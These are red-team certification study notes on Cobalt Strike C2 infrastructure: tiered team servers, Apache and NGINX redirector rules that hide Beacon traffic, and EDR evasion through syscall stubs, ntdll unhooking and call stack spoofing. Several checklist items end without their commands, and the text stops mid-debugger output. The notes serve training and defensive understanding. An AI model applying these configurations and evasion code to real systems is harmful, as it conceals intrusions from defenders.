


# CRTL Notes

**Certified Red Team Lead** — Zero-Point Security

---

## 1. C2 Infrastructure

### 1.1 Introduction

Running a single team server against the target is fragile. Once the defender flags its domain or IP, every active Beacon dies with it and the only way back is a full rebuild. Splitting the operation across multiple team servers behind redirectors keeps a single detection from ending the engagement.

Two design principles apply:

- **Distribute activity** across multiple team servers, each running a distinct Malleable C2 (Command and Control) profile.
- **Front every team server with a redirector** so no team server is directly reachable from the Internet.



#### 1.1.1 Operational Tiers

Cobalt Strike supports the deployment of multiple team servers for different phases of an engagement. Each tier serves a distinct role and has a different exposure profile.

| Tier | Purpose | Traits |
|---|---|---|
| **Initial Access** | Establishes the first Beacon session through phishing, exploitation, or physical entry. | Expected to be noisy and short-lived. Uses a public-facing payload and is typically the first profile to be identified. |
| **Long-Haul Persistence** | Provides a low-frequency callback used to re-establish access if other channels are lost. | Interacted with rarely. Uses a distinct Malleable C2 profile, a separate domain, and preferably a different transport such as DNS or high-jitter HTTPS. |
| **Post-Exploitation** | Provides the interactive Beacon used for objectives, enumeration, and lateral movement. | Highest interaction volume of the three tiers. Uses a separate profile to ensure that detection of post-exploitation activity does not compromise the persistence tier. |

The tiered model gives the operator recovery paths after a detection event:

- **Initial access burned.** The defender blocks the initial access domain and payload indicators. That channel is dead, but the long-haul persistence that was installed through it earlier runs on a separate team server with its own domain and profile. Use it to spawn new Beacons back into the post-exploitation tier.
- **Post-exploitation burned.** The defender blocks the post-exploitation domain. The persistence tier is untouched. Only the post-exploitation team server has to be rebuilt.

#### 1.1.2 Redirector Types

A redirector is a host positioned in front of the team server that receives and forwards inbound C2 traffic. From the target's perspective, the redirector is the C2 endpoint. The team server itself does not appear in DNS records, WHOIS registrations, TLS (Transport Layer Security) certificate transparency logs, or reverse IP scan data. Three categories of redirector are commonly deployed, differentiated by the depth of inspection performed on incoming requests.

| Type | Tools | Behaviour | Trade-off |
|---|---|---|---|
| **Dumb** | `socat`, `iptables` DNAT | Forwards every packet arriving on a given port to the team server without inspecting request content. | Minimal configuration required. Any client that connects to the listening port receives the team server's default response. |
| **Smart** | Apache `mod_rewrite`, NGINX `location` | Inspects the request line, headers, and query string. Only requests matching the C2 profile are forwarded; unmatched requests receive a 404 or a benign page. | Requires per-profile configuration. Filters traffic from unauthenticated scanners, sandboxes, and incident response tooling. |
| **SaaS** | AWS Lambda, Azure Functions, CloudFront, Cloudflare Workers | Beacon connects to a high-reputation service endpoint; the SaaS platform proxies matching traffic to the team server. | Provides the strongest domain reputation. Infrastructure is attributable to the operator's cloud account and the provider retains authority to terminate the service. |

Dumb redirectors are typically used as an inner forwarding layer between a smart proxy and the team server, or as a stepping stone during initial infrastructure buildout. They are not appropriate as the sole redirection layer.

```bash
# iptables DNAT — kernel-level, rewrites destination
$ sudo sysctl -w net.ipv4.ip_forward=1
$ sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.5:80
$ sudo iptables -t nat -A POSTROUTING -j MASQUERADE

# socat — user-space, no kernel routing changes
$ socat TCP4-LISTEN:80,fork,reuseaddr TCP4:10.0.0.5:80
```

#### Methodology

- [ ] Stand up one team server VPS per operational tier — initial access, long-haul, post-ex. Never multiplex tiers on the same host: >>
- [ ] Author a distinct Malleable C2 profile per tier. Vary URIs, headers, metadata encoding, User-Agent. Lint before boot: >>
- [ ] Point the domain A record at the **redirector** VPS, not the team server. Verify: >>
- [ ] Lock the team server so only its redirector can reach the C2 port: >>
- [ ] Document the burn playbook before the engagement starts — when to rotate, what triggers rotation, whose call it is. Sanity-check reachability from an external host regularly: >>

#### OPSEC

- Dumb redirectors forward the team server's default HTTP response to any client that connects to the listening port. A smart proxy layer or benign frontend page should be deployed to prevent trivial fingerprinting.
- Reusing the same VPS provider, autonomous system, or geographic region across tiers enables a defender to correlate infrastructure after identifying a single compromised domain.
- Domain reputation is unevenly distributed. Recently registered domains under low-reputation TLDs such as `.xyz` are frequently blocked by enterprise web proxies before traffic reaches the target. Aged domains or SaaS-based infrastructure provide better initial reputation.
- Restricting inbound management access on redirectors to operator source addresses prevents a defender from pivoting into the C2 infrastructure after identifying a redirector.

### 1.2 Apache Redirectors

Apache configured with `mod_rewrite` is a commonly deployed smart redirector. Inbound requests are evaluated against conditional rules. Requests that match the rule set are proxied to the team server, while unmatched requests return a 404 response or a benign page. Every field defined in the Malleable C2 profile — HTTP method, URI, query string, and headers — can be used as a filter condition.

#### 1.2.1 Base Setup

```bash
$ sudo apt install apache2
$ sudo a2enmod rewrite proxy proxy_http
```

In `/etc/apache2/sites-enabled/000-default.conf`, add below the closing `</VirtualHost>`:

```apacheconf
<Directory /var/www/html/>
    Options Indexes FollowSymLinks MultiViews
    AllowOverride All
    Require all granted
</Directory>
```

Create `/var/www/html/.htaccess` with a minimal catch-all proxy rule:

```apacheconf
RewriteEngine on
RewriteRule ^.*$ http://10.0.0.5%{REQUEST_URI} [P]
```

The rule syntax is `pattern substitution [flags]`. The `[P]` flag instructs Apache to proxy the request rather than issue a client-side redirect, which makes the forwarding transparent to Beacon. Restart Apache to apply the initial configuration:

```bash
$ sudo systemctl restart apache2
```

Subsequent changes to `.htaccess` take effect without a service restart. Maintaining an active Beacon session during rule development provides immediate feedback if a configuration change breaks the proxy path.

#### 1.2.2 URI and Method Filtering

The default lab profile ([webbug](https://github.com/Cobalt-Strike/Malleable-C2-Profiles/blob/master/normal/webbug.profile)) uses `__utm.gif` for GET check-in requests and `___utm.gif` for POST reply requests. Multiple `RewriteCond` directives can be chained so that all conditions must match before the associated `RewriteRule` is applied.

```apacheconf
RewriteEngine on

# Beacon check-in (GET)
RewriteCond %{REQUEST_METHOD} GET       [NC]
RewriteCond %{REQUEST_URI}    ^/__utm.gif$
RewriteRule ^.*$ http://10.0.0.5%{REQUEST_URI} [P,L]

# Beacon reply (POST)
RewriteCond %{REQUEST_METHOD} POST      [NC]
RewriteCond %{REQUEST_URI}    ^/___utm.gif$
RewriteRule ^.*$ http://10.0.0.5%{REQUEST_URI} [P,L]

# Catch-all: 404 everything else
RewriteRule ^.*$ - [R=404,L]
```

| Flag | Meaning |
|---|---|
| `[NC]` | Case-insensitive match. |
| `[P]` | Proxy the request (do not send a client-side redirect). |
| `[L]` | Last — stop processing further rules on match. |
| `[R=404,L]` | Return 404 and stop. |

Regular expressions should be anchored with `^` and `$`. An unanchored rule matching `/__utm.gif` also matches `/__utm.gif.aspx` and other suffixed variants, which can be leveraged by a scanner to fingerprint the redirector.

#### 1.2.3 Query String Filtering

The webbug profile also defines fixed URL parameters. The `http-get` variant adds six static parameters together with a `utmcc` field containing Beacon metadata. The `http-post` variant carries the Beacon identifier in the `utmac` field.

```apacheconf
RewriteEngine on

RewriteCond %{REQUEST_METHOD} GET       [NC]
RewriteCond %{REQUEST_URI}    ^/__utm.gif$
RewriteCond %{QUERY_STRING}   ^utmac=UA-2202604-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma(.*)$
RewriteRule ^.*$ http://10.0.0.5%{REQUEST_URI} [P,L]

RewriteCond %{REQUEST_METHOD} POST      [NC]
RewriteCond %{REQUEST_URI}    ^/___utm.gif$
RewriteCond %{QUERY_STRING}   ^utmac=UA-220[0-9]+-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US$
RewriteRule ^.*$ http://10.0.0.5%{REQUEST_URI} [P,L]

RewriteRule ^.*$ - [R=404,L]
```

Beacon metadata varies per session, so use `(.*)` at the tail of the pin. Beacon ID is a numeric prefix, so `[0-9]+` is enough — do not use `.*` there or the filter is meaningless.

#### 1.2.4 X-Forwarded-For

By default, the team server logs the redirector's IP address as the source of the Beacon session. Apache automatically populates the `X-Forwarded-For` header with the true client address on proxied requests. The team server can be configured to log the value of this header instead by setting the following option in the Malleable C2 profile:

```c
http-config {
    set trust_x_forwarded_for "true";
}
```

This change requires a team server restart to take effect. No modification to the redirector configuration or the payload is required.

#### Methodology

- [ ] Install Apache, enable required modules: >>
- [ ] Grant `AllowOverride All` on the web root so `.htaccess` can drive rules: >>
- [ ] Start with a catch-all proxy rule. Verify Beacon check-in: >>
- [ ] Add per-method / per-URI rules from the C2 profile. Verify Beacon still checks in and that `getuid` returns output (POST path works): >>
- [ ] Add query-string pins for every profile parameter. Use `(.*)` only for encoded metadata fields: >>
- [ ] Add the terminal catch-all so unmatched requests return a clean 404: >>
- [ ] Enable `trust_x_forwarded_for` in the profile so the team server logs real client IPs. Requires teamserver restart, no payload rebuild: >>

#### OPSEC

- All URI regular expressions should be anchored. Unanchored patterns can be bypassed by a scanner appending arbitrary suffixes to the target URI.
- Successful check-ins with missing command output indicate a broken POST rule. Verifying rule changes against an active Beacon before switching operators to the channel prevents extended periods of undetected loss.
- The default 404 response from Apache identifies the underlying distribution. Returning a custom 404 page consistent with the profile's expected behaviour prevents fingerprinting of the redirector.
- A recovered Malleable C2 profile exposes every filter condition applied at the redirector. Metadata field names and parameter values should not be reused across profiles for different tiers.

### 1.3 NGINX Redirectors

NGINX provides equivalent smart-redirection functionality using a different configuration model. All rules are defined in the primary configuration file; NGINX does not support per-directory override files such as Apache's `.htaccess`. This model is preferred when a single authoritative configuration source and explicit reloads are desired.

#### 1.3.1 Base Setup

```bash
$ sudo apt install nginx
```

In `/etc/nginx/sites-enabled/default`, replace the default `location /` with a catch-all proxy, then reload:

```nginx
location / {
    proxy_pass http://10.0.0.5;
    include proxy_params;
}
```

```bash
$ sudo systemctl restart nginx
```

#### 1.3.2 Location and Method Filtering

A separate `location` block should be defined for each C2 URI, followed by a catch-all block that returns a 404 response for unmatched requests:

```nginx
# proxy __utm.gif (GET check-in)
location ~* /__utm.gif {
    if ($request_method !~* GET) { return 404; }
    if ($query_string !~ ^utmac=UA-2202604-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma.+$) { return 404; }
    proxy_pass http://10.0.0.5;
    include proxy_params;
}

# proxy ___utm.gif (POST reply)
location ~* /___utm.gif {
    if ($request_method !~* POST) { return 404; }
    proxy_pass http://10.0.0.5;
    include proxy_params;
}

# catch-all
location / {
    return 404;
}
```

| Directive | Meaning |
|---|---|
| `~` | Case-sensitive regex match on location. |
| `~*` | Case-insensitive regex match. |
| `$request_method` | HTTP method (GET, POST, …). |
| `$query_string` | Everything after `?` in the request line. |
| `$remote_addr` | Client IP (before `X-Forwarded-For`). |

#### 1.3.3 Payload Hosting with IP Allowlist

When a payload is hosted directly on the redirector, access should be restricted by source IP address so that only the target environment can retrieve it:

```nginx
location /payload {
    if ($remote_addr !~ ^203\.0\.113\.42$) { return 404; }
    proxy_pass http://10.0.0.5;
}
```

Instead of returning a 404 response, unmatched requests can be served arbitrary content or issued an HTTP redirect to a decoy destination:

```nginx
location / {
    return 301 https://www.example-decoy.com;
}
```

#### Methodology

- [ ] Install NGINX. Replace default `location /` with the catch-all proxy. Verify Beacon check-in: >> >>
- [ ] Add per-URI `location` blocks matching the profile. Use `~*` for case-insensitive regex, anchor patterns: >>
- [ ] Add `$request_method` and `$query_string` guards inside each block. Return 404 on mismatch: >>
- [ ] Terminal `location /` returns 404 for anything unmatched. Optionally redirect to a decoy site instead: >>
- [ ] For payload URIs, add a `$remote_addr` allowlist so casual scanners cannot enumerate: >>
- [ ] Validate then reload — never `restart` on a live channel: >>

#### OPSEC

- NGINX emits a `Server: nginx/1.xx` response header by default. The `server_tokens off;` directive should be set, and the `Server` header should be rewritten to match a plausible backend product.
- The `if` directive within a `location` block has known evaluation caveats and should be tested end-to-end. Complex conditional expressions should not be composed within `if`.
- HTTP 301 responses include the redirector's origin in the `Location` header. A 404 response should be preferred unless the specific engagement benefits from redirecting unmatched traffic to a decoy.
- A recovered NGINX configuration exposes the same filter definitions as a recovered Malleable C2 profile. Metadata field names and parameter values should not be shared across tiers.

## 2. EDR Telemetry

### 2.1 Introduction

EDR (Endpoint Detection and Response) products collect telemetry from several layers of Windows to spot malicious activity. Getting past them means knowing where each telemetry source lives and how it can be avoided. The Windows API is layered, and every layer gives a sensor a different place to watch.

#### 2.1.1 Windows API Layers

The core capabilities of Beacon — process injection, token manipulation, memory allocation, and network I/O — are implemented on top of the Win32 API. Each Win32 function is layered above the native API, which in turn transitions to the kernel through a syscall.

| Layer | Home | Example |
|---|---|---|
| Win32 API | `Kernel32.dll` / `KernelBase.dll` / `Advapi32.dll` | `OpenProcess`, `VirtualAlloc`, `CreateRemoteThread` |
| Native API | `ntdll.dll` | `NtOpenProcess`, `NtAllocateVirtualMemory`, `NtCreateThreadEx` |
| Syscall boundary | `syscall` instruction inside `ntdll` | Transitions execution from user mode to kernel mode using the system service number. |
| Kernel | `ntoskrnl.exe` | Performs handle creation, access checks, and the underlying implementation of each service. |

#### 2.1.2 EDR Vantage Points

The location at which an EDR product collects telemetry determines both what activity is observable and which evasion techniques are effective.

| Vantage | Mechanism | Evasion Approach |
|---|---|---|
| User-mode hooks | Inline or Import Address Table patches placed on `ntdll` functions within each process. | Direct or indirect syscalls, function unhooking, or remapping the function body from a clean copy on disk. |
| Kernel callbacks | An EDR driver registers callbacks via `PsSetCreateProcessNotifyRoutineEx` and related APIs to receive process, thread, image load, and registry events. | Requires kernel write access, typically obtained through a vulnerable driver, to overwrite the callback table entry. |
| ETW-TI | The kernel emits high-fidelity security events (`RemoteVirtualAlloc`, `RemoteWriteVm`, `SetContextThread`, and others) through the Microsoft-Windows-Threat-Intelligence ETW provider. | Requires kernel write access to patch the provider's `ProviderEnableInfo.IsEnabled` field to zero. |
| Call stack analysis | The sensor performs stack unwinding when a monitored API is invoked and inspects for frames whose return address resides in unbacked memory. | Call stack spoofing or API proxying through the Windows thread pool. |



#### 2.1.3 SSDT and the Move to User-Mode Hooking

Prior to Windows Vista, security vendors instrumented the kernel by hooking entries in the **System Service Descriptor Table (SSDT)**. Beginning with Windows Vista, Kernel Patch Protection (PatchGuard) detects unauthorised modifications to the SSDT and triggers a bug check, rendering this technique unusable. Vendors subsequently moved to placing hooks in user-mode `ntdll`, which is the placement targeted by syscall-based evasion techniques.

Following the CrowdStrike incident of July 2024, Microsoft has publicly proposed architectural changes intended to reduce third-party driver presence in the kernel. Any resulting changes are likely to affect the operating model of EDR products going forward.

#### OPSEC

- User-mode hooks are installed on a per-process basis. A process created before the EDR agent has an opportunity to inject its instrumentation contains no hooks, which presents an early-startup evasion opportunity.
- Kernel callbacks receive events for every process, thread, and image load system-wide. They cannot be evaded from user mode; disabling them requires kernel-mode access, typically obtained through a vulnerable driver.
- ETW-TI does not block operations; it produces telemetry. Disabling the provider prevents downstream SOC correlation but does not affect the outcome of individual API calls.

### 2.2 API Hooking

Two hooking techniques cover most of what an EDR does in user mode. **IAT hooking** swaps the resolved function pointer in a target PE's Import Address Table. **Inline hooking** overwrites the first instructions of the target function with an unconditional jump to a detour. Most current EDRs prefer inline hooking because a single hook on an `ntdll` function catches every process that loads the DLL.

#### 2.2.1 IAT Hooking

Every PE has an **Import Directory** listing the DLLs and functions it depends on. At load time the Windows loader walks that table, resolves each function pointer with `LoadLibrary` + `GetProcAddress`, and writes the pointer into the **Import Address Table (IAT)**. Calls compile to an indirect `jmp` through the IAT slot.

```c
// MessageBoxW call compiles to:
//   jmp qword ptr [__imp_MessageBoxW]   ; IAT slot for User32.dll!MessageBoxW
```

An IAT hook is installed by replacing the pointer stored in the target PE's IAT slot with the address of a sensor-controlled function. Subsequent calls made through the IAT are dispatched to the sensor's function.

| Property | IAT Hooking |
|---|---|
| Modified structure | The Import Address Table of the target PE. |
| Scope | Only calls made through the IAT of that specific PE are intercepted. |
| Bypass | Resolving the API address directly through `GetProcAddress` and invoking the returned pointer bypasses the IAT entry entirely. |

#### 2.2.2 Inline Hooking

Inline hooking is performed by overwriting the first instructions of the target function in `ntdll` with an unconditional jump to a detour function supplied by the sensor. The detour inspects arguments and may return early or delegate to a *trampoline*, which contains the original overwritten instructions followed by a jump back into the target function at the offset immediately following the overwrite. Because `ntdll` is mapped into every user-mode process, an inline hook installed by the sensor's injection routine applies to all processes on the system.

```
Before hook (User32!MessageBoxW):
    sub  rsp, 38h
    xor  r11d, r11d
    cmp  dword ptr [USER32!gfEMIEnable], r11d
    ...

After hook:
    jmp  0x7ffd`83520178          ; jump to detour
    int  3
    int  3

Detour:
    lea  rdx, ["This function has been hooked!"]
    jmp  qword ptr [Trampoline]    ; call trampoline which runs original bytes then returns
```

#### 2.2.3 Direct Syscalls

User-mode hooks reside within `ntdll`. A **direct syscall** issues the `syscall` instruction from an assembly stub compiled into the payload itself, which bypasses `ntdll` entirely and therefore avoids any hooks placed within it.

```nasm
.code
NtOpenProcess proc
    mov r10, rcx
    mov eax, 26h        ; SSN for NtOpenProcess on this Windows build
    syscall
    ret
NtOpenProcess endp
end
```

Direct syscalls avoid the user-mode hook but introduce a secondary detection surface: the call stack no longer contains the expected `ntdll` frame. A conventional `OpenProcess` call produces the following stack:

```
ntdll!NtOpenProcess
KERNELBASE!OpenProcess+0x56
Demo!main+0xa0
```

A direct syscall issued from a user-defined module produces the following stack:

```
SyscallDemo!NtOpenProcess       ; syscall issued outside of ntdll
SyscallDemo!main+0xb7
```

The absence of an `ntdll` frame is a strong indicator of malicious activity to any sensor that performs stack unwinding at the syscall boundary. Direct syscalls exchange one detection surface for another.

#### 2.2.4 Indirect Syscalls

An **indirect syscall** sets up the required registers in a user-defined stub but transfers control to the `syscall` instruction located inside the real `ntdll` module. The resulting call stack contains a legitimate `ntdll!NtOpenProcess+0x12` frame corresponding to the address of the `syscall` instruction, which is indistinguishable from a normal API invocation to a stack-based sensor.

```nasm
EXTERN ntOpenProcessSyscall:QWORD

.code
NtOpenProcess proc
    mov r10, rcx
    mov eax, 26h
    jmp QWORD PTR [ntOpenProcessSyscall]   ; jmp to syscall inside ntdll
NtOpenProcess endp
end
```

A variant of this technique jumps to the `syscall` instruction inside a different `Nt*` function than the one whose system service number was loaded into `EAX`. The kernel dispatches based on the value in `EAX`, while the call stack references the unrelated function name. This defeats naive stack-based detections that correlate the stack frame with the operation being performed.

#### 2.2.5 SSN Resolution (Hell's, Halo's, and Tartarus' Gate)

Hard-coding SSNs (System Service Numbers) and syscall addresses is not portable. SSNs change between Windows builds, and ASLR (Address Space Layout Randomization) relocates `ntdll` on each boot. Both values must be resolved at runtime by walking the `ntdll` EAT (Export Address Table) and inspecting each `Nt*` function body.

| Gate | Approach | Failure Mode |
|---|---|---|
| **Hell's Gate** | Walks the target `Nt*` function body and extracts the SSN from the `mov eax, imm32` instruction in the syscall prologue. | Fails when the function is inline-hooked; the prologue has been overwritten with a `jmp` and no SSN is present to extract. |
| **Halo's Gate** | On Hell's Gate failure, walks to neighbouring `Nt*` functions and deduces the target SSN by index. For example, if `NtQueryInformationThread` (SSN 0x25) and `NtSetInformationFile` (SSN 0x27) are not hooked, the SSN of `NtOpenProcess` between them is 0x26. | Fails when neighbouring functions are also hooked. |
| **Tartarus' Gate** | Extends Halo's Gate by also inspecting the fourth byte of each function for the `0xE9` (jmp) opcode, which detects hooks placed after the syscall prologue rather than at the function entry point. | Fails against hook shapes not covered by either pattern. |

#### Methodology

- [ ] Author a direct syscall stub in MASM (Microsoft Macro Assembler), one per target `Nt*`. Declare the C prototype in a matching header: >>
- [ ] Upgrade to indirect syscall: replace `syscall` with `jmp QWORD PTR [ntFooSyscall]`, populate the gadget at runtime with the address of any `syscall` instruction inside `ntdll`: >>
- [ ] Resolve SSNs dynamically via Halo's/Tartarus' Gate rather than hardcoding — SSNs move between Windows builds: >>
- [ ] Verify: place a breakpoint on `ntdll!NtOpenProcess` in WinDbg. A working direct/indirect syscall never triggers it: >>

#### 2.2.6 API Unhooking

API unhooking is an alternative to syscall-based evasion. The sensor's inline hooks are overwritten in memory with the original instruction bytes from a clean copy of `ntdll` loaded from disk. Because a sensor may hook a large number of functions, the practical approach is to replace the entire `.text` section of the in-memory `ntdll` rather than restoring individual functions.

1. Map a fresh copy of `ntdll.dll` from disk with `SEC_IMAGE`.
2. Locate the in-memory `.text` section of the loaded (hooked) `ntdll`.
3. `VirtualProtect` the region to writable.
4. `memcpy` the fresh `.text` over the hooked one.
5. Restore original page protection.
6. `FlushInstructionCache`.

```c
void UnhookNtdll() {
    HANDLE hFile    = CreateFileW(L"C:\\Windows\\System32\\ntdll.dll",
                                   GENERIC_READ, FILE_SHARE_READ, NULL,
                                   OPEN_EXISTING, 0, NULL);
    HANDLE hMapping = CreateFileMappingW(hFile, NULL,
                                          PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    LPVOID pMap     = MapViewOfFile(hMapping, FILE_MAP_READ, 0, 0, 0);

    HMODULE hNtdll  = GetModuleHandleW(L"ntdll.dll");
    // Walk PE headers, find .text, VirtualProtect + memcpy + restore + flush.
    // ... (elided for brevity)
}
```

#### OPSEC

- Direct syscalls produce a call stack with no `ntdll` frame at the syscall boundary, which is a strong indicator to any sensor that performs stack unwinding. Indirect syscalls should be preferred unless call stack spoofing is also in use.
- Resolution of indirect syscall gadgets requires reading `ntdll` memory at load time. Some sensors monitor and alert on this access pattern.
- Unhooking modifies the `.text` section of `ntdll`, which can be detected by a sensor that compares the in-memory image to the on-disk file. Unhooking should be performed once, early in the process lifecycle, and further operations should proceed through syscalls.
- Both techniques may involve RWX allocations or write-then-execute page transitions. Allocation should be performed as RW and transitioned to RX only after the payload is written.

### 2.3 Call Stacks

Stack-based detection reconstructs the sequence of function calls that led to a monitored API invocation. Frames whose return addresses fall within unbacked memory regions, or an absence of the expected thread-start frames at the base of the stack, are the primary indicators used to identify malicious activity.

#### 2.3.1 x64 Calling Convention

The Windows x64 Application Binary Interface defines a fast-call convention in which the first four scalar arguments are passed in registers and any remaining arguments are passed on the stack. The caller is responsible for allocating 32 bytes of **shadow space** on the stack immediately above the return address so that the callee can spill the register arguments if required.

| Arg | Register (scalar) | Register (float/SSE) |
|---|---|---|
| 1 | `RCX` | `XMM0` |
| 2 | `RDX` | `XMM1` |
| 3 | `R8` | `XMM2` |
| 4 | `R9` | `XMM3` |
| 5+ | Stack (`[rsp+28h]` upward) | Stack |
| Return | `RAX` | `XMM0` |

```
Stack frame layout on entry to callee:
    [rsp+30h]  arg 6
    [rsp+28h]  arg 5
    [rsp+20h]  shadow slot for R9
    [rsp+18h]  shadow slot for R8
    [rsp+10h]  shadow slot for RDX
    [rsp+08h]  shadow slot for RCX
    [rsp+00h]  return address (pushed by call)
```

#### 2.3.2 Function Prologues and Epilogues

Compilers emit predictable prologue and epilogue sequences around each function. The prologue reserves stack space for locals and preserves the values of the non-volatile registers (`RBP`, `RBX`, `RDI`, `RSI`, and `R12`–`R15`). The epilogue restores those values and issues the `ret` instruction to return to the caller.

```
Typical prologue:
    push  rdi                    ; save non-volatile
    sub   rsp, 118h              ; reserve 32B shadow + locals
    lea   rbp, [rsp+20h]

Typical epilogue:
    add   rsp, 118h              ; free locals
    pop   rdi
    ret
```

#### 2.3.3 Stack Unwinding

Windows exception handling reconstructs the sequence of active stack frames using PE-embedded metadata rather than a chain of saved base pointers. The same mechanism is used by EDR products to determine the origin of a monitored API call.

| Structure | Role |
|---|---|
| `RUNTIME_FUNCTION` | A per-function entry in the exception directory containing the function's start RVA (Relative Virtual Address), end RVA, and a pointer to its `UNWIND_INFO`. |
| `UNWIND_INFO` | Describes the function prologue: the number of bytes pushed, whether a frame pointer is used, and the location of the shadow space. |
| `UNWIND_CODE[]` | An ordered sequence of unwind operations replayed by the unwinder to reconstruct the caller's stack pointer. |

A call to `MessageBoxW` originating from a Beacon injected into a process produces the following stack:

```
# Child-SP           RetAddr             Call Site
00 00daee68 0417003a  user32!MessageBoxW
01 00daee70 04171640  0x417003a           ; <-- unbacked memory
02 00daee78 041716cb  0x4171640           ; <-- unbacked memory
03 ...
```

Any frame whose module column contains a raw address (`0x417003a`) rather than a resolved symbol indicates unbacked memory, which is typical of injected shellcode. Detection rules of the form "monitored API called from a return address not backed by an on-disk PE" identify this pattern reliably.

#### 2.3.4 Call Stack Spoofing

Call stack spoofing constructs a synthetic stack that ends in the canonical thread-start frames, causing the unwinder to terminate as if the call originated from a legitimate thread. The expected sequence of frames at the base of a normal thread is:

```
... your target API frame ...
ntdll!RtlUserThreadStart+0x2c   <-- fake frame you push
KERNEL32!BaseThreadInitThunk+0x17
ntdll!RtlUserThreadStart+0x2c
0x0                              <-- unwinder stops here
```

The implementation proceeds as follows:

1. The real return address is preserved in a non-volatile register such as `R12`.
2. A zero value is pushed onto the stack, followed by the address of `RtlUserThreadStart+0x2c`. The stack now appears to originate from a new thread.
3. An additional *gadget frame* is pushed whose return address points to a `jmp qword ptr [rbx]` instruction located inside a legitimately loaded DLL.
4. The `RBX` register is set to the address of a cleanup routine.
5. The target API is invoked. Upon return, execution transfers to the gadget, which dispatches through `RBX` to the cleanup routine, which then restores the real return address from `R12`.

The `+0x2c` offset within `RtlUserThreadStart` is specific to the Windows build. Incorrect offsets do not prevent unwinding but produce a stack that a manual analyst can identify as synthetic. Reference implementation: [CallStackSpoofer](https://github.com/WithSecureLabs/CallStackSpoofer) by HulkOperator.

#### 2.3.5 API Proxying

API proxying causes Windows itself to execute the target API through a legitimate callback path. The thread pool APIs `TpAllocWork`, `TpPostWork`, and `TpReleaseWork` accept a user-supplied callback which is executed on a thread-pool worker thread. The callback contains a short assembly stub that configures the required registers and transfers control to the target API.

The resulting call stack begins at `RtlUserThreadStart` and passes through `TppWorkerThread`, which is indistinguishable from any other work item dispatched through the thread pool.

The trade-off is that the return value of the target API is not directly accessible to the caller, as execution completes on a separate thread. This technique is most suitable for native APIs that return output through pointer arguments rather than through the `RAX` register.

#### OPSEC

- Call stack spoofing is sensitive to Windows version differences. An incorrect version-specific offset produces a stack that is accepted by the unwinder but recognisable as synthetic to a manual analyst.
- The synthetic zero return address cannot be left in place if execution is expected to return normally. A gadget-based restore mechanism is required.
- Thread pool proxying is asynchronous. The target API completes on a worker thread, and the calling code must account for this in its control flow.
- Call stack spoofing should be combined with indirect syscalls. A spoofed stack containing a direct syscall frame still exposes the syscall as originating from unbacked memory.

### 2.4 Kernel Callbacks

EDR drivers register kernel callback routines to receive notifications of process, thread, image load, and registry events. Callbacks are not passive observers; they can modify or veto the operations they observe. Disabling a callback requires the ability to write to kernel memory, which is typically obtained through a vulnerable driver (§7).

#### 2.4.1 Notification Callback Types

| API | Fires On | Kernel Table |
|---|---|---|
| `PsSetCreateProcessNotifyRoutineEx` | Process create / exit | `nt!PspCreateProcessNotifyRoutine` |
| `PsSetCreateThreadNotifyRoutine` | Thread create / exit | `nt!PspCreateThreadNotifyRoutine` |
| `PsSetLoadImageNotifyRoutine` | Image (DLL/EXE) mapped into a process | `nt!PspLoadImageNotifyRoutine` |
| `ObRegisterCallbacks` | Handle open on process/thread objects; pre-op can strip access rights | `nt!ObTypeIndexTable` → per-type `CallbackList` |
| `CmRegisterCallbackEx` | Registry operation (create/set/query/delete key) | `nt!CallbackListHead` |

#### 2.4.2 Process Callbacks (PspCreateProcessNotifyRoutine)

Each notification table is a fixed-size array of 64 pointers to `EX_CALLBACK_ROUTINE_BLOCK` structures. Each structure contains an `EX_RUNDOWN_REF`, a pointer of type `PEX_CALLBACK_FUNCTION` referencing the registered callback, and a context pointer supplied at registration time.

```
lkd> dp nt!PspCreateProcessNotifyRoutine
fffff804`b0b04b80  ffffbf0f`e4dfb52f ffffbf0f`e823bb5f
fffff804`b0b04b90  ffffbf0f`e823b82f ffffbf0f`e823b8ef
fffff804`b0b04ba0  ffffbf0f`e823b64f ffffbf0f`e84e888f
...
lkd> dq (ffffbf0f`e823bb5f & 0xfffffffffffffff0)
